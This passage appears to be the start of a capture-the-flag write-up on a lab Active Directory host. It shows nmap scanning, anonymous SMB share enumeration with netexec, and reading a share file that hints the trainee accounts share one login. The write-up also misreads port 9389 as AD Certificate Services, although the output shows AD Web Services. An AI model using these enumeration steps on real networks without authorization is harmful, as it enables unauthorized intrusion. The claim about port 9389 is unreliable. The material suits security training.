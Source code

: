 ## Port scan
```bash
sudo nmap -v --top-ports 10000 -iL ips.txt -oA big
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49678/tcp open  unknown
```
The interesting port is 9389 which suggests an AD Certificate service.
But this will only be relevant when we have a domain user. Other than that there are no outliers.
Let's start with basic anonymous enumeration.
## 445 SMB - anonymous access → list share and get usernames
I use `netexec` to enumerate anonymous access to shares:
```bash {hl_lines=[7,9]}
nxc smb ips.txt -u 'anonymous' -p ''  --shares
SMB         10.10.104.73    445    DC               [+] retro.vl\anonymous: (Guest)
SMB         10.10.104.73    445    DC               [*] Enumerated shares
SMB         10.10.104.73    445    DC               Share           Permissions     Remark
SMB         10.10.104.73    445    DC               -----           -----------     ------
[...]
SMB         10.10.104.73    445    DC               Notes                           
SMB         10.10.104.73    445    DC               SYSVOL                          Logon server share 
SMB         10.10.104.73    445    DC               Trainees        READ  
```
We have access to the trainees share, which contains an Important.txt file:

```
smbclient.py anonymous:a@$(<domain)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Trainees
# ls
drw-rw-rw-          0  Mon Jul 24 00:16:11 2023 .
drw-rw-rw-          0  Wed Jul 26 11:54:14 2023 ..
-rw-rw-rw-        288  Mon Jul 24 00:16:11 2023 Important.txt
# cat Important.txt
```
> Dear Trainees,
> 
> I know that some of you seemed to struggle with remembering strong and unique passwords.
> So we decided to bundle every one of you up into one account.
> Stop bothering us. Please. We have other stuff to do than resetting your password every day.
> 
> Regards
> 
> The Admins
